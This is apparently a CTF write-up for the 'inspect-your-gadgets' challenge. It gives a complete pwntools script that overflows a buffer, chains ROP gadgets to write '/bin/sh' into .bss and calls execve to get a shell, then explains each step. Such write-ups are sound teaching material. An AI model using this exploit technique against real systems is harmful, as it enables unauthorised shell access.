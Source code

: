 # Summary 
In this challenge we have to reverse a binary an build up a ROP chain in order to open a shell on the computer and read the flag. In order to do this we need to setup a syscall to bin/sh through the buffer overflow in the program. 

# Payload
Here is the script 
```python
from pwn import * 

if __name__ == "__main__":
    # p = process("./inspect-your-gadgets")
    p = remote("chal.ctf-league.osusec.org", 1311)
    
    # get all the questions right :)
    p.sendlineafter(b"here: ", b"C")
    p.sendlineafter(b"here: ", b"D")
    p.sendlineafter(b"here: ", b"A")
    
    pop_rdx = p64(0x4018cf)
    pop_rsi = p64(0x40f52e)
    bss_addr = p64(0x4c3220 + 9)
    
    # construct rop payload
    payload = b"A"*0x28 # buffer overflow
    
    # set up rax
    payload += pop_rdx # pop rdx; ret
    payload += p64(59)
    payload += p64(0x447e48) # mov rax, rdx; ret
    
    # set up rdi (/bin/sh)
    payload += p64(0x4019c2) # pop rdi; ret
    payload += bss_addr
    payload += p64(0x404bd2) # pop rcx ; ret
    payload += b"/bin/sh\x00" # p64(0x2F2F62696E2F7368) "/bin/sh"
    payload += p64(0x43b95b) # mov qword ptr [rdi], rcx ; ret
    
    # zero rsi
    payload += pop_rdx # pop rdx; ret
    payload += p64(0)
    payload += pop_rsi # pop rsi ; ret
    payload += p64(0)

    # syscall
    payload += p64(0x4012d3) # syscall

    print(payload)
    
    # send payload!
    p.sendlineafter(b"scoreboard: ", payload)
    p.interactive()
```
A step by step example of this script would be awnsering the questions correctly then initiating the buffer overflow. From here we use gadgets to set up rax through pops and returns to contiue our ROP chain, from there we setup rdi where we put the string bin/sh into a area of the program that is constant and setup a ptr to that address that we can access later. From there we make rsi equal to zero. Finally we have our syscall setup, which we use with our setup values to call a shell which will then allows us to cat the flag file on the machine. 
